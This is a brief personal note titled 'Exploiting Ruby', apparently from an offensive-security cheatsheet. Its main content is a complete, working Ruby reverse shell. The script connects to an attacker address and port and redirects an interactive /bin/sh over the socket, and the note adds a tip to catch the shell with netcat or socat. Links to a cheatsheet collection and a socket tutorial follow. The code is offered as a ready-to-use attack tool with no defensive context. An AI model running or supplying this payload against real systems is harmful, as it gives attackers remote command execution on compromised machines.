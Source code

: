 # Exploiting Ruby

**author**:: Nathan Acks  
**date**:: 2022-07-11

A simple reverse shell:

```ruby
require "socket"

attacker_ip = "10.0.0.1"
attacker_port = 1234

f = TCPSocket.open(attacker_ip, attacker_port).to_i

exec sprintf("/bin/sh -i <&%d >&%d 2>&%d", f, f, f)
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [Ruby - Socket Programming](https://www.tutorialspoint.com/ruby/ruby_socket_programming.htm)
